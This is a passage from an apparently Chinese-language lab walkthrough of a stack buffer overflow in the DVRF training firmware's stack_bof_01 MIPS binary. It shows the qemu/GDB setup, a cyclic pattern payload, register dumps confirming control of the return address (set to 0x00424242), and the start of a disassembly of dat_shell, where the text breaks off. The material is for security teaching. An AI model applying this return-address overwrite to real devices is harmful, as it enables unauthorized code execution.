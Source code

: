 然后，我们将GDB本地映射到端口1234。

```
(gdb) target remote 127.0.0.1:1234
127.0.0.1:1234: Connection timed out.
(gdb) target remote 127.0.0.1:1234
Remote debugging using 127.0.0.1:1234
0x767b9a80 in ?? ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41386741 in ?? ()
(gdb) i r
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 fffffff8 00000041 767629b8 0000000a 767629c3 0000000b 00000000
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   81010100 7efefeff 37674136 41386741 68413967 31684130 41326841 68413368
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  00000000 00000000 00000000 ffffffff 76fff634 0040059c 00000002 004007e0
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  766e65e0 766ef270 00000000 00000000 00448cd0 76fff558 37674136 41386741
            sr       lo       hi      bad    cause       pc
      20000010 0000000a 00000000 41386740 00000000 41386741
           fsr      fir
00000000 00739300
```

我们看到PC被设置为A8gA，它位于偏移量204的位置，这也就是说保存的指令是在208字节，然而我们只覆盖这4个字节中的3个。<br>
我们将再次尝试，但最终目标是实现$RA 0x00424242。

```
b1ack0wl@b1ack0wl-VM ~/DVRF/_DVRF_v03.bin.extracted/squashfs-root $ sudo chroot . ./qemu-mipsel-static -g 1234 ./pwnable/Intro/stack_bof_01 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7BBB"
```

```
(gdb) target remote 127.0.0.1:1234
Remote debugging using 127.0.0.1:1234

Program received signal SIGTRAP, Trace/breakpoint trap.
0x767b9a80 in ?? ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00424242 in ?? ()
(gdb) i r
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 fffffff8 00000041 767629b8 0000000a 767629c3 0000000b 00000000
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   81010100 7efefeff 41366641 66413766 39664138 41306741 67413167 33674132
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  00000000 00000000 00000000 ffffffff 76fff694 0040059c 00000002 004007e0
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  766e65e0 766ef270 00000000 00000000 00448cd0 76fff5b8 37674136 00424242
            sr       lo       hi      bad    cause       pc
      20000010 0000000a 00000000 00424242 00000000 00424242
           fsr      fir
      00000000 00739300

(gdb) disass dat_shell
      Dump of assembler code for function dat_shell:
         0x00400950 &lt;+0&gt;:   lui gp,0x5          /*
```